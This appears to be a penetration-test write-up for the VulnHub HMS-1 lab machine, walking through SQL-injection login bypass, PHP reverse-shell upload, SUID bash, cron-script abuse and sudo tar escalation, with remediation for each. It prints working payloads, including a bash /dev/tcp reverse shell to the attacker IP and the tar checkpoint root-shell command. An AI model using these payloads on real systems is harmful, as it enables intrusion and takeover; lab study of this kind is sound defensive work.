

# HMS-1 — Penetration Test Report

**Target:** VulnHub HMS-1 (`192.168.1.102`)

**Attacker:** Kali Linux (`192.168.1.71`)

**Date:** 28 September 2026

**Assessment Type:** Internal Network Penetration Test

**Result:** Full system compromise — user and root flags obtained

**Overall Risk:** Critical

---

## 1. Executive Summary

I conducted a penetration test against the HMS-1 vulnerable virtual machine in a controlled local-network environment.

The assessment resulted in full system compromise, progressing from unauthenticated access to administrator authentication bypass, remote code execution, privilege escalation to the `eren` user, and ultimately root-level access.

The attack chain consisted of multiple security weaknesses:

- SQL injection in the authentication mechanism
- Unrestricted server-side file upload
- Exposure of an administrative page through HTML source
- A misconfigured SUID Bash binary
- An insecure cron configuration
- Passwordless `sudo` access to `tar`

The vulnerabilities could be chained together to compromise the host without requiring legitimate credentials initially.

The most significant security issues were the SQL injection and unrestricted file upload, which provided the initial path from unauthenticated network access to command execution. Once a low-privileged shell was obtained, local privilege-escalation weaknesses allowed the compromise to progress to root.

---

## 2. Target Information

| Field | Details |
| --- | --- |
| Hostname | `nivek` |
| Target IP | `192.168.1.102` |
| Attacker IP | `192.168.1.71` |
| Operating System | Ubuntu 16.04 |
| Kernel | `4.4.0-21` |
| Web Server | Apache 2.4.48 |
| PHP | 7.3.29 |
| Web Platform | XAMPP |
| Assessment Date | 28 September 2026 |

---

## 3. Scope and Objective

### Target

The assessment focused on the intentionally vulnerable HMS-1 virtual machine.

### Objectives

The primary objectives were to:

1. Identify exposed network services.
2. Discover vulnerabilities in the web application.
3. Obtain an initial foothold.
4. Escalate privileges from the web-service account.
5. Obtain user-level access.
6. Escalate to root.
7. Capture the designated user and root flags.
8. Document the vulnerabilities and recommended remediation.

---

## 4. Methodology

The assessment followed a typical penetration-testing workflow:

```
Reconnaissance
      ↓
Port and Service Enumeration
      ↓
Web Application Enumeration
      ↓
Authentication Bypass
      ↓
Remote Code Execution
      ↓
Local Enumeration
      ↓
Privilege Escalation
      ↓
User Access
      ↓
Root Privilege Escalation
      ↓
Flag Capture
```

---

## 5. Findings Summary

| # | Finding | Severity | Primary Impact |
| --- | --- | --- | --- |
| 1 | SQL Injection in Login Form | Critical | Authentication bypass |
| 2 | Unrestricted File Upload | Critical | Remote code execution |
| 3 | Administrative Page Exposed in HTML Source | Medium | Information disclosure |
| 4 | SUID Bash Owned by `eren` | High | Privilege escalation |
| 5 | Insecure Cron Script Configuration | High | Privilege escalation |
| 6 | Passwordless `sudo` Access to `tar` | Critical | Root compromise |

---

## 6. Detailed Findings

### Finding 1 — SQL Injection in Login Form

**Severity:** Critical

**Endpoint:** `http://192.168.1.102:7080/login.php`

**Parameter:** `email` (POST)

### Description

The login form was vulnerable to SQL injection because user-controlled input was incorporated into the backend SQL query without adequate parameterization.

The client-side `type="email"` restriction did not provide meaningful security because it could be modified or bypassed using browser developer tools.

### Proof of Concept

I modified the Email field from:

```html
type="email"
```

to:

```html
type="text"
```

I then supplied the following SQL injection payload:

```sql
' OR 1=1 #
```

with an arbitrary password.

### Result

The application authenticated me as an administrator without requiring valid credentials.




### Security Impact

An unauthenticated attacker could bypass the application's authentication mechanism and gain access to privileged functionality.

### Remediation

- Use prepared statements and parameterized queries.
- Never construct SQL queries by directly concatenating user input.
- Perform validation on the server side.
- Apply least-privilege permissions to the database account.
- Implement additional authentication controls for administrative functionality.

---

### Finding 2 — Unrestricted File Upload Leading to Remote Code Execution

**Severity:** Critical

**Endpoint:** `/setting.php`

**Upload Directory:** `/opt/lampp/htdocs/uploadImage/Logo/`

### Description

After authenticating to the application, I discovered an administrative `setting.php` page containing a file-upload function.

The application did not adequately restrict the uploaded file type. PHP files could be uploaded into a directory located inside the webroot and subsequently interpreted by the server.

### Proof of Concept

I uploaded a PHP reverse-shell payload to the application's upload directory.


The uploaded file was subsequently accessible through:

```bash
curl http://192.168.1.102:7080/uploadImage/Logo/shell.php
```


### Result

The uploaded PHP file executed successfully and provided an interactive shell running as:

```
daemon
```


### Security Impact

An attacker able to access the upload functionality could execute arbitrary commands on the underlying operating system.

### Remediation

- Implement a strict server-side extension allowlist.
- Validate file content and MIME type server-side.
- Rename uploaded files using server-generated filenames.
- Store uploaded files outside the webroot.
- Disable script execution in upload directories.
- Apply appropriate filesystem permissions.
- Reject executable file types such as PHP.
- Enforce upload size restrictions.

---

### Finding 3 — Administrative Page Exposed in HTML Source

**Severity:** Medium

**Affected Resource:** Application dashboard

### Description

The administrative `setting.php` page was referenced in the application's HTML source through a commented-out link.

Although the link was not visibly displayed to the user, its presence provided an attacker with a direct indication of an administrative endpoint.

### Evidence

The page could be identified by inspecting the application's HTML source.

### Security Impact

Exposed administrative endpoints can assist attackers during application enumeration and may reveal functionality that was not intended to be publicly discoverable.

The primary security issue, however, was the absence of effective server-side authorization controls protecting the administrative functionality.

### Remediation

- Remove unused and commented-out administrative links.
- Do not rely on obscurity to protect sensitive functionality.
- Enforce authorization server-side on every administrative endpoint.
- Remove development and debugging artifacts from production applications.

---

### Finding 4 — SUID Bash Binary Owned by `eren`

**Severity:** High

**Affected File:** `/usr/bin/bash`

### Evidence

The Bash binary was configured with the SUID permission and owned by the `eren` account:

```
-rwsr-xr-x 1 eren eren 1037464 Jul 26 2021 /usr/bin/bash
```

### Description

The SUID permission caused Bash to execute with the effective privileges of its file owner.

Running:

```bash
/usr/bin/bash -p
```

preserved the effective UID and provided access to the privileges associated with the `eren` account.


### Result

I escalated from the low-privileged web-service account to:

```
eren
```

### Security Impact

A specially configured SUID shell can allow an attacker who already has local execution to obtain the privileges of the binary's owner.

### Remediation

Remove the unnecessary SUID permission:

```bash
chmod u-s /usr/bin/bash
```

Additionally:

- Audit SUID and SGID binaries regularly.
- Remove unnecessary SUID permissions.
- Never configure general-purpose shells as SUID binaries.
- Monitor changes to sensitive filesystem permissions.

---

### Finding 5 — Insecure Cron Script Configuration

**Severity:** High

**Affected File:** `/home/eren/backup.sh`

### Cron Configuration

```
*/5 * * * * eren /home/eren/backup.sh
```


### Description

The `backup.sh` script was executed automatically by cron with the privileges of the `eren` account.

The security risk was that the script's permissions and ownership configuration allowed it to be modified by the compromised account.

The originally recorded permissions were:

```
-rwxr-xr-x eren daemon
```

These permissions correspond to `755` and are not technically world-writable. Therefore, the finding is more accurately described as an insecurely writable cron script rather than a world-writable script.

### Exploitation

After obtaining the required write access, I added a reverse-shell command to the script:

```bash
bash -i >& /dev/tcp/192.168.1.71/4445 0>&1
```


The cron job executed the modified script during its next five-minute cycle.

### Result

I received a shell running as:

```
eren
```


### Security Impact

Because the cron job executed the script with `eren` privileges, modification of the script allowed command execution with the same privileges.

### Remediation

- Ensure cron scripts are writable only by their legitimate owner or administrator.
- Recommended permissions:

```bash
chmod 700 /home/eren/backup.sh
```

- Ensure the script is owned by the appropriate privileged account.
- Audit scheduled tasks regularly.
- Monitor modifications to cron-executed files.
- Avoid executing scripts from directories writable by untrusted users.

---

### Finding 6 — Passwordless `sudo` Access to `tar`

**Severity:** Critical

**Affected Account:** `eren`

**Affected Binary:** `/bin/tar`

### Sudo Configuration

```
User eren may run the following commands on nivek:
    (root) NOPASSWD: /bin/tar
```

### Description

The `eren` account was permitted to execute `/bin/tar` as root without supplying a password.

Because `tar` provides functionality capable of executing commands through its checkpoint options, this configuration could be abused to obtain a root shell.

### Proof of Concept

I used:

```bash
touch exploit
```

followed by:

```bash
sudo tar cf /dev/null exploit --checkpoint=1 --checkpoint-action=exec="/bin/bash"
```


### Result

The command spawned a shell with root privileges:

```
uid=0(root)
```

### Security Impact

The configuration effectively allowed the `eren` account to execute arbitrary commands with root privileges.

This resulted in complete compromise of the operating system.

### Remediation

- Remove the unrestricted `sudo` permission for `tar`.
- Avoid granting `sudo` access to binaries capable of arbitrary command execution.
- Use a dedicated, restricted backup wrapper where backup functionality is required.
- Review `/etc/sudoers` and `/etc/sudoers.d/` regularly.
- Apply least privilege to all delegated administrative commands.

---

## 7. Exploitation Walkthrough

| Step | Action | Result |
| --- | --- | --- |
| 1 | `nmap -sV -p- -T4 192.168.1.102` | Identified ports 21, 22 and 7080 |
| 2 | Enumerated FTP | Anonymous access available; directory appeared empty |
| 3 | Tested login form with SQL injection | Authentication bypass |
| 4 | Inspected application source | Discovered `setting.php` |
| 5 | Accessed file-upload functionality | Arbitrary file upload |
| 6 | Uploaded PHP reverse shell | Malicious file stored in webroot |
| 7 | Triggered uploaded shell | Obtained `daemon` shell |
| 8 | Performed local enumeration | Discovered SUID Bash |
| 9 | Executed `/usr/bin/bash -p` | Obtained `eren` privileges |
| 10 | Enumerated scheduled tasks | Identified `backup.sh` cron job |
| 11 | Modified executable cron script | Reverse shell executed by cron |
| 12 | Received callback on port `4445` | Obtained `eren` shell |
| 13 | Executed `sudo -l` | Discovered passwordless `tar` |
| 14 | Abused `tar` command execution | Obtained root shell |
| 15 | Accessed flag files | User and root flags captured |

---

## 8. Attack Chain

```
Unauthenticated Access
        |
        v
SQL Injection
        |
        v
Administrator Authentication Bypass
        |
        v
Unrestricted File Upload
        |
        v
PHP Reverse Shell
        |
        v
daemon
        |
        v
SUID Bash
        |
        v
eren
        |
        v
Cron Script Abuse
        |
        v
eren Shell
        |
        v
Passwordless sudo tar
        |
        v
ROOT
        |
        v
User + Root Flags
```

---

## 9. Flags Captured

| Flag | Location | Value |
| --- | --- | --- |
| User | `/home/nivek/local.txt` | `3bbf8c168408f1d5ff9dfd91fc00d0c1` |
| Root | `/root/root.txt` | `299c10117c1940f21b70a391ca125c5d` |

---


## 10. Remediation Summary

### Immediate — Critical

- [ ]  Replace dynamically constructed SQL queries with parameterized queries.
- [ ]  Implement secure server-side file-upload validation.
- [ ]  Prevent script execution within upload directories.
- [ ]  Store uploaded files outside the webroot.
- [ ]  Remove unrestricted `NOPASSWD` access to `tar`.
- [ ]  Remove the SUID bit from `/usr/bin/bash`.

### Short-Term — High

- [ ]  Correct permissions on `/home/eren/backup.sh`.
- [ ]  Ensure cron-executed scripts cannot be modified by untrusted accounts.
- [ ]  Audit all cron jobs and scheduled tasks.
- [ ]  Remove exposed administrative links and development artifacts.
- [ ]  Implement consistent server-side authorization checks.

### Long-Term — Hardening

- [ ]  Conduct regular SUID/SGID audits.
- [ ]  Review filesystem ownership and permissions.
- [ ]  Apply least privilege to service and database accounts.
- [ ]  Monitor changes to sensitive binaries and scheduled-task files.
- [ ]  Establish change-control procedures for application uploads.
- [ ]  Implement centralized logging and security monitoring.
- [ ]  Consider a WAF as an additional defense-in-depth control.

---

## 11. Overall Security Assessment

The HMS-1 system was successfully compromised through a chain of vulnerabilities spanning the application and operating-system layers.

The initial SQL injection allowed authentication bypass, while the unrestricted upload functionality provided a route to remote code execution. Local privilege-escalation weaknesses then enabled progression from the web-service account to `eren`, followed by root compromise through an overly permissive `sudo` configuration.

The assessment demonstrates how individual weaknesses can become significantly more severe when chained together.

The primary defensive priorities are:

1. Eliminate SQL injection through parameterized queries.
2. Secure the file-upload functionality and prevent server-side script execution.
3. Remove dangerous SUID configurations.
4. Secure cron-executed scripts and their permissions.
5. Remove unrestricted `sudo` access to command-execution-capable utilities.

---

## 12. Conclusion

The HMS-1 host was successfully compromised from an unauthenticated position on the local network.

The complete attack path was:

**SQL Injection → Authentication Bypass → File Upload → Remote Code Execution → `daemon` → SUID Bash → `eren` → Cron Abuse → `eren` → `sudo tar` → Root**

Both designated flags were successfully obtained, demonstrating complete compromise of the target system.

**Final Result: Full System Compromise**

---

**Report Author:** Doxavictorious

**Assessment Date:** 28 September 2026

**Target:** VulnHub HMS-1

**Assessment Type:** Controlled Lab / Penetration Test# hms
